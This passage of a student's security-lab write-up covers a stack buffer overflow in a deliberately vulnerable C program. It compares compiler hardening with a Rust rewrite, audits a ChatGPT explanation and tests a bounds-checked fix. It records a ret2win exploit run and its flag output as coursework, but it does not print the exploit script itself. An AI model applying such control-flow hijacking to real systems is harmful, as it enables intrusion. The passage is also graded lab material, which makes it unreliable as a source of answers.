- **CWE-121 — Stack-Based Buffer Overflow**
- **CWE-787 — Out-of-Bounds Write**

**Would a Stack Canary Have Prevented It?**

A stack canary could have detected a conventional overflow that corrupted the saved return address, potentially terminating the affected process before control-flow hijacking occurred. However, stack canaries are not a complete solution because they do not prevent the underlying out-of-bounds write and may not detect every memory-corruption technique.

**Would a Rust Rewrite Have Prevented It?**

A correct rewrite of the vulnerable input-processing routine using safe Rust would have prevented this type of unchecked stack-buffer write. Safe Rust enforces memory safety and prevents ordinary code from writing outside allocated buffers, eliminating the specific memory-corruption mechanism used by the overflow.

**Connection to Week 11 Lab:**

The Morris Worm's `fingerd` overflow is conceptually similar to the vulnerable `parse_input()` function in this week's lab. Both involve processing external input without sufficient bounds checking, which can corrupt memory and potentially change the program's control flow.

### 3. Best Mitigation: Harden the C Build vs. Rewrite in Rust

| Criteria | Harden the C Build | Rewrite in Rust |
|---|---|---|
| Approach | Enable compiler and runtime protections. | Replace unsafe memory operations with memory-safe language features. |
| Memory safety | Reduces exploitability but does not eliminate the underlying bug. | Prevents unchecked memory access in safe Rust. |
| Stack buffer overflow | Canary and FORTIFY_SOURCE can detect certain overflows. | Safe Rust prevents this class of out-of-bounds memory write. |
| Return-address hijacking | PIE/ASLR makes fixed addresses harder to predict. | Prevents control-data corruption through safe memory operations. |
| Performance | Usually requires little or no application redesign, with some overhead. | Often provides performance comparable to C, depending on the implementation. |
| Development cost | Lower initial cost; existing code can often be retained. | Higher initial cost due to rewriting, testing, and developer training. |
| Long-term security | Requires continued auditing and maintenance of unsafe code. | Offers stronger long-term memory-safety guarantees for new code. |

**My Recommendation:**

For new software, I would choose **Rust** because it provides more durable risk reduction by preventing memory-safety vulnerabilities through language-level guarantees rather than relying only on exploit mitigations.

For existing C applications, enabling stack canaries, PIE/ASLR, NX, and FORTIFY_SOURCE is a practical short-term improvement because it can be deployed without a complete rewrite. However, these protections do not remove unsafe operations such as `strcpy()` or `gets()`.

The main cost of adopting Rust is the time required to learn the language, migrate existing functionality, test compatibility, and maintain integrations with legacy C libraries. A reasonable long-term strategy is to harden existing C code immediately while gradually rewriting high-risk components in memory-safe Rust.

**Final Reflection:**

This lab showed me the difference between making a vulnerability harder to exploit and removing the vulnerability itself. In Task 3, the hardened C build blocked my ret2win payload, while in Task 4, the safe Rust program successfully processed 5,000 characters and the literal `%x %n` without observable memory corruption. Therefore, I believe language-level memory safety provides stronger long-term protection, while compiler hardening remains important as an additional defense.


## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–3: fuzz crash, ret2win flag, hardened break) | 40 |
| Defense (Task 4: Rust rewrite + explanation) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
  2. **Why does your fix actually stop it** — and what could still break it?

---


## 🤖 Audit the AI (Required)

### 1. AI Assistant and Original Answer

**AI Tool:** ChatGPT

**Prompt:**

"Explain why the ret2win exploit fails against the hardened C binary in Week 11 and how the vulnerability can be mitigated."

**Original AI Answer (relevant response from Task 3):**

> The hardened binary detected the buffer overflow and terminated with the message `*** buffer overflow detected ***`.
>
> This is consistent with FORTIFY_SOURCE detecting the unsafe `strcpy()` operation through `__strcpy_chk` before the function returns. Therefore, the overwritten return address could not be used to redirect execution to `win()`.
>
> PIE/ASLR also makes the original fixed `WIN_ADDR = 0x401196` unreliable because function addresses are no longer fixed between executions. Stack canaries can detect corruption of stack control data, while NX prevents execution of injected shellcode on the stack.
>
> The observed termination demonstrates the effect of the hardened build, but this single test does not independently prove that every mitigation was triggered.

### 2. Problems and Risks Found in the AI Answer

The AI correctly explained why the hardened binary terminated, but its explanation focused on exploit mitigations instead of a complete source-level fix.

**Exact line being audited:**

> "This is consistent with FORTIFY_SOURCE detecting the unsafe `strcpy()` operation through `__strcpy_chk` before the function returns."

**Identified Problem:**

FORTIFY_SOURCE does not make `strcpy()` inherently safe. It can detect certain overflowing copies when the compiler can determine the destination object's size, but the unsafe operation remains in the source code.

The AI's explanation could be misinterpreted as meaning that enabling compiler protections completely eliminates the vulnerability. However, the underlying CWE-121 and CWE-787 risks should be addressed by removing unchecked memory writes.

Stack canaries, PIE/ASLR, and NX provide additional protection, but none of them replaces proper input validation and bounds checking.

### 3. Corrected Secure Version

I propose replacing the unsafe `strcpy()` operation with explicit length validation and a bounded copy.

**Corrected C Code:**

```c
#include <stddef.h>
#include <string.h>

#define BUFFER_SIZE 64

int parse_input_safe(const char *input) {
    char buf[BUFFER_SIZE];

    if (input == NULL) {
        return -1;
    }

    size_t length = strlen(input);

    if (length >= sizeof(buf)) {
        return -1;
    }

    memcpy(buf, input, length + 1);

    return (int)length;
}
```

**Explanation:**

The corrected function checks whether the input fits into the destination buffer before copying any data. It reserves one byte for the null terminator, so a 64-byte buffer accepts at most 63 input characters.

Unlike the original `strcpy()` implementation, the copy occurs only after the length has been validated.

This example assumes that `input` points to a valid, null-terminated string. For untrusted data arriving with an explicit byte length, a production implementation should validate that length without relying on an unbounded `strlen()` call.

### 4. Verification

**Previously Verified Week 11 Results:**

| Test Case | Actual Result | Status |
|---|---|---|
| Original vulnerable C binary | ret2win succeeded and printed the flag | PASS |
| Hardened C binary | `*** buffer overflow detected ***` | PASS |
| Safe Rust with 5,000 characters | Reported 5,000 characters without crashing | PASS |
| Safe Rust with `%x %n` | Reported 5 characters without crashing | PASS |

**Boundary Tests Required for the Corrected C Function:**

| Input Length | Expected Result | Actual Result |
|---|---|---|
| 63 characters | Accepted | Pending verification |
| 64 characters | Rejected | Pending verification |
| 5,000 characters | Rejected | Pending verification |

**Verification Status:** The original vulnerability and the effectiveness of the hardened and Rust examples were verified experimentally. The corrected C function is proposed but must be tested separately before being considered verified.

### 5. Why the AI Answer Was Insufficient

The AI explained how compiler mitigations stopped the tested exploit but did not eliminate the unsafe memory-copying operation. My corrected approach validates the input length before copying, preventing the destination buffer from being overwritten. Boundary testing is necessary to confirm that the implementation behaves correctly at and beyond the buffer limit.

### 6. AI Use Disclosure

I used ChatGPT to help analyze the buffer overflow, interpret the AddressSanitizer results, and explain the hardened C and safe Rust implementations.

I independently executed the Week 11 lab commands inside the isolated Docker container and compared the AI's explanation with the observed results. I identified the limitation of relying only on compiler mitigations and proposed a source-level bounds-checking correction.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---


## 🧠 Comprehension & Prompt (Required)

### A. Explain in Plain English (EiPE)

The vulnerable C program copies user input into a fixed 64-byte buffer without checking whether the input is too long. If someone enters more data than the buffer can hold, the extra bytes overwrite nearby memory, including information that controls where the program executes next. This allows an attacker to redirect execution to another function, such as `win()`, instead of following the intended program flow.

### B. Prompt Problem

**Selected Vulnerability:** CWE-121 — Stack-Based Buffer Overflow / CWE-787 — Out-of-Bounds Write

#### 1. Final AI Prompt

"Review the vulnerable `parse_input()` function in `vuln.c`, which uses `strcpy()` to copy attacker-controlled input into a fixed 64-byte stack buffer.

Provide a secure C replacement that:

1. Never writes beyond the 64-byte destination buffer.
2. Rejects null input safely.
3. Validates the input length before copying.
4. Reserves one byte for the null terminator.
5. Accepts inputs of up to 63 characters.
6. Rejects inputs of 64 characters or longer without copying them.
7. Uses a bounded memory-copy operation only after validating the length.
8. Does not rely only on stack canaries, PIE/ASLR, NX, or FORTIFY_SOURCE.
9. Includes test cases for 63-byte, 64-byte, and 5,000-byte inputs.
10. Compiles and runs with AddressSanitizer enabled.

Provide complete, compilable C code and explain how to verify that the original buffer-overflow condition no longer occurs. Assume the input is a valid null-terminated string."

#### 2. AI-Assisted Secure Fix

I created a separate C test program named `audit_fix_test.c` to verify a corrected input-processing function without modifying the original `vuln.c`.

**Corrected Code:**

```c id="1mghpv"
#include <stddef.h>
#include <string.h>

#define BUFFER_SIZE 64

int parse_input_safe(const char *input) {
    char buf[BUFFER_SIZE];

    if (input == NULL) {
        return -1;
    }

    size_t length = strlen(input);

    if (length >= sizeof(buf)) {
        return -1;
    }

    memcpy(buf, input, length + 1);

    return (int)length;
}
```

The corrected function validates the input length before copying it into the destination buffer. Inputs of 64 characters or more are rejected, preventing the overflow demonstrated in Task 1 and Task 2.

#### 3. Original Exploit Result

The vulnerable `vuln` executable allowed a stack buffer overflow that redirected execution into `win()`.

**Command:**

```bash id="a5aw5t"
python3 exploit_skeleton.py | ./vuln
```

**Actual Result:**

```text id="4dvgdo"
[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
Segmentation fault (core dumped)
```

**Result: VULNERABLE — The ret2win exploit succeeded.**

#### 4. Verification of the Corrected Code

I compiled the corrected test program using GCC with AddressSanitizer enabled.

**Commands:**

```bash id="df3skf"
gcc -g -fsanitize=address -o audit_fix_test audit_fix_test.c
./audit_fix_test
```

**Actual Output:**

```text id="rnx6fi"
Input: 63 bytes | Result: ACCEPTED
Input: 64 bytes | Result: REJECTED
Input: 5000 bytes | Result: REJECTED
```

**Verification Table:**

| Test Case | Expected Result | Actual Result | Status |
|---|---|---|---|
| 63-byte input | Accepted | Accepted | PASS |
| 64-byte input | Rejected | Rejected | PASS |
| 5,000-byte input | Rejected | Rejected | PASS |
| AddressSanitizer error | None | None observed | PASS |

**Result: PASS — The corrected function passed all three boundary tests without any observed AddressSanitizer errors.**

#### 5. Does the Original Exploit Still Work?

The original exploit succeeded because the vulnerable function copied data beyond the 64-byte buffer and overwrote the saved return address.

The corrected function rejects input that exceeds the available buffer capacity before performing the copy. Therefore, the same oversized input cannot overwrite the return address through this corrected function.

**Verification Scope:** The corrected function passed the boundary tests, but the original ret2win payload was not executed against a complete rebuilt application containing the fix. The results therefore verify the corrected function's boundary handling, not an end-to-end ret2win regression test.

#### 6. Final Conclusion

The original vulnerability occurred because `strcpy()` copied user input without validating its size. My final prompt required explicit length validation, safe copying, and boundary tests instead of relying only on compiler protections.

The corrected implementation accepted 63 characters and rejected 64 and 5,000 characters without any observed memory errors. This demonstrates that the tested out-of-bounds write is prevented by the source-level fix.

#### 7. Evidence

**Original ret2win Exploit**


**Verified Source-Level Fix**


